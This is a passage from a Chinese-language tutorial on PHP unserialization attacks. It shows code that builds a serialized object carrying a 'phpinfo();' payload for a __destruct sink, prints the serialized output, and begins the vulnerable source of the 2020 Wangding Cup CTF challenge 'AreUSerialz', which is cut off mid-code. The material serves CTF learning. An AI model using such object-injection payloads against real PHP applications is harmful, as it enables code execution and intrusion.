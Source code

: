 代码有一个构造函数`__construct`输出`__construct`，在`new`这个对象时自动调用，一个析构函数`__destruct`将当我们传入的`a`再传进`one`对象中执行，构造代码：

```php
<?php
class Student {
    var $a;
    function __construct() {
        $this->a = new one();
    }
}
class one {
    var $b = "phpinfo();";
}
echo serialize(new Student());
?>
```

输出：

```
O:7:"Student":1:{s:1:"a";O:3:"one":1:{s:1:"b";s:10:"phpinfo();";}}
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20200809201524-00e203b4-da3a-1.png)

成功触发。

**实例：网鼎杯 2020 青龙组 AreUSerialz**

```php
<?php
include("flag.php");
highlight_file(__FILE__);

class FileHandler {
    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
```